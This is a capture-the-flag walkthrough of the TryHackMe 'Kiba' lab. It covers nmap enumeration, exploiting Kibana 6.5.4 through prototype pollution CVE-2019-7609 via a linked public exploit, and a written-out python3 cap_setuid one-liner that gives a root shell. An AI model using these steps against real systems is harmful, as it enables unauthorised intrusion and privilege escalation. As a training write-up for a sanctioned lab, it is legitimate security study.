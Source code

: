 # TryHackMe-Kiba

## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-04 10:31 PKT
Nmap scan report for 10.10.215.99
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
This didn't returned a port on which `kibana` was runinng so let's try enumarting for ports that are greater than 1000

```
ost is up (0.23s latency).                                                                                                                         
Not shown: 65531 closed ports                                                                                                                       
PORT     STATE SERVICE      VERSION                                                                                                                 
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                            
| ssh-hostkey:                                                                                                                                      
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)                                                                                      
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)                                                                                     
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)                                                                                   
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))                                                                                          
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                        
|_http-title: Site doesn't have a title (text/html).                                                                                                
5044/tcp open  lxi-evntsvc?                                                                                                                         
5601/tcp open  esmagent?                                                                                                                            
| fingerprint-strings:                                                                                                                              
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionR
eq, TLSSessionReq, TerminalServerCookie, X11Probe:                        
|     HTTP/1.1 400 Bad Request                                                                                                                      
|   FourOhFourRequest:                                                                                                                              
|     HTTP/1.1 404 Not Found                                                                                                                        
|     kbn-name: kibana                                                                                                                              
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c                     
|     content-type: application/json; charset=utf-8                       
|     cache-control: no-cache                                             
|     content-length: 60             
|     connection: close              
|     undefined: undefined           
|     Date: Wed, 04 Nov 2020 06:00:22 GMT                                 
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}                                                                                  
|   GetRequest:                      
|     HTTP/1.1 302 Found             
|     location: /app/kibana          
|     kbn-name: kibana               
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c                     
|     cache-control: no-cache                                             
|     content-length: 0              
|     connection: close              
|     undefined: undefined           
|     Date: Wed, 04 Nov 2020 06:00:17 GMT                                 
|   HTTPOptions:                     
|     HTTP/1.1 404 Not Found                                              
|     kbn-name: kibana               
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c                     
|     content-type: application/json; charset=utf-8                       
|     cache-control: no-cache                                             
|     content-length: 38             
|     connection: close              
|     undefined: undefined           
|     Date: Wed, 04 Nov 2020 06:00:17 GMT                                 
|_    {"statusCode":404,"error":"Not Found"}                              
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/
submit.cgi?new-service :             
```


Visting the port `5601`

<img src="https://imgur.com/iHct8wi.png"/>

<img src="https://imgur.com/vr5Yjwg.png"/>

Here you can find the version which kibana is running 

* What is the vulnerability that is specific to programming languages with prototype-based inheritance?

By google search found about `prototype pollution`


* What is the version of visualization dashboard installed in the server?

Version: 6.5.4

* What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000 

CVE-2019-7609

Searching the CVE on google I found a github page 

`https://github.com/mpgn/CVE-2019-7609`


<img src="https://imgur.com/ZVN4udx.png"/>

Now as I soon as I visit the page `canvas` I get a reverse shell

<img src="https://imgur.com/gqFHe6M.png"/>


<img src="https://imgur.com/XCE2Ykw.png"/>

Now on port 80 it was pointed to us about `linux capabilites` so on searching capabilites on linux I came across something called `getcap` that lists the files that have capabilites to run anythin on system,Capabilities is a concept that provides a security system that allows "divide" root privileges into different values


When running `getcap` shell got broke and I tried so many times re deoplying the machine to again get a reverse shell 

Finally after getting a shell I ran the command 

```
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

```
```
kiba@ubuntu:/home/kiba$ cd .hackmeplease 
cd .hackmeplease
kiba@ubuntu:/home/kiba/.hackmeplease$ ls -al
ls -al
total 4356
drwxrwxr-x 2 kiba kiba    4096 Mar 31  2020 .
drwxr-xr-x 6 kiba kiba    4096 Nov  3 22:19 ..
-rwxr-xr-x 1 root root 4452016 Mar 31  2020 python3

```
We see that python3 has `capabilites` set so on visiting GTFOBINS

<img src="https://imgur.com/tcHkrvH.png"/>

## Privilege Escalation

`./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

```
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<kmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'   
pwd
/home/kiba/.hackmeplease
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
whoami
root

```
